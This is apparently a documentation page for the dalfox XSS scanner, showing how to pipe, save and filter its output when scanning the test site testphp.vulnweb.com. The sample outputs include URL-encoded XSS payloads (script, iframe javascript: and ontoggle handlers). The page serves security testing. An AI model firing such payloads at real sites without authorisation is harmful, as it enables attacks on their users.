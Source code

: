 ```yaml
---
title: Output Handling
permalink: /docs/output-handling/
nav_order: 6
toc: true
layout: page
---
```


## Use dalfox output to other tools via Pipeline
Command
```
dalfox url http://testphp.vulnweb.com/listproducts.php | grep "\[V\]" | cut -d " " -f2 | xargs -I % open %
```

## Save only PoC code with Stdout
Command
```
dalfox url http://testphp.vulnweb.com/listproducts.php > output
```

Output file
```
cat output
[POC][G][BUILT-IN/dalfox-error-mysql2/GET] http://testphp.vulnweb.com/listproducts.php
[POC][G][BUILT-IN/dalfox-error-mysql/GET] http://testphp.vulnweb.com/listproducts.php
[POC][G][BUILT-IN/dalfox-error-mysql5/GET] http://testphp.vulnweb.com/listproducts.php?cat=dalfox.
[POC][G][BUILT-IN/dalfox-error-mysql1/GET] http://testphp.vulnweb.com/listproducts.php?cat=dalfox.
[POC][V][GET] http://testphp.vulnweb.com/listproducts.php?cat=%3CsCriPt+class%3Ddalfox%3Eprompt%2845%29%3C%2Fscript%3E
```

## Save only PoC code with `-o` flag
Command
```
dalfox url http://testphp.vulnweb.com/listproducts.php -o output
```

Output file
```
cat output
[POC][G][BUILT-IN/dalfox-error-mysql2/GET] http://testphp.vulnweb.com/listproducts.php
[POC][G][BUILT-IN/dalfox-error-mysql/GET] http://testphp.vulnweb.com/listproducts.php
[POC][G][BUILT-IN/dalfox-error-mysql5/GET] http://testphp.vulnweb.com/listproducts.php?cat=dalfox.
[POC][G][BUILT-IN/dalfox-error-mysql1/GET] http://testphp.vulnweb.com/listproducts.php?cat=dalfox.
[POC][V][GET] http://testphp.vulnweb.com/listproducts.php?cat=%3CsCriPt+class%3Ddalfox%3Eprompt%2845%29%3C%2Fscript%3E
```

## Save all log (with `--output-all` flag)

Command
```
dalfox url http://testphp.vulnweb.com/listproducts.php -o alllog.txt --output-all
```

Output file
```
cat alllog.txt
[*] Using single target mode
[*] Target URL: http://testphp.vulnweb.com/listproducts.php
[*] Vaild target [ code:200 / size:4819 ]
[*] Using dictionary mining option [list=GF-Patterns] 📚⛏
[*] Using DOM mining option 📦⛏
[*] Start static analysis.. 🔍
[*] Start parameter analysis.. 🔍
[*] Start BAV(Basic Another Vulnerability) analysis / [sqli, ssti, OpenRedirect]  🔍
...snip...
```

## Save only special PoC Code
Supported
* g(`grep`)
* r(`reflected`)
* v(`verified`)

Case
* g: `[POC][G][BUILT-IN/dalfox-error-mysql1/GET] http://testphp.vulnweb.com/listproducts.php?cat=dalfox%2C`
* r: `[POC][R][GET] http://testphp.vulnweb.com/listproducts.php?cat=%3CdETAILS%250aopen%250aonToGgle%250a%3D%250aa%3Dprompt%2Ca%28%29%3E`
* v: `[POC][V][GET] http://testphp.vulnweb.com/listproducts.php?cat=%3CiFrAme%2Fsrc%3DjaVascRipt%3Aalert%281%29+class%3Ddalfox%3E%3C%2FiFramE%3E`

Command (only grep and verified poc)
```
dalfox url http://testphp.vulnweb.com/listproducts.php --only-poc=g,v
```

## Save Traffic in HAR File
```
dalfox url http://testphp.vulnweb.com/listproducts.php --har-file-path=log.har
```